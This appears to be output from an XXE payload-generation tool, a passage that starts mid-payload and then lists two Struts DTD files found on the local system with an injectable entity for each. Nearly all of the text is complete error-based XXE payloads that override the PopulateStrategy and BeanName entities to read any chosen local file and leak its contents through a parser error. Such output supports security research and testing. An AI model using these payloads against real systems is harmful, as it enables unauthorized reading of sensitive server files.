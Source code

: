 ```
    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_4.dtd`

**Injectable entity:** `PopulateStrategy`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_4.dtd">

    <!ENTITY % PopulateStrategy '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_0.dtd`

**Injectable entity:** `BeanName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_0.dtd">

    <!ENTITY % BeanName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```
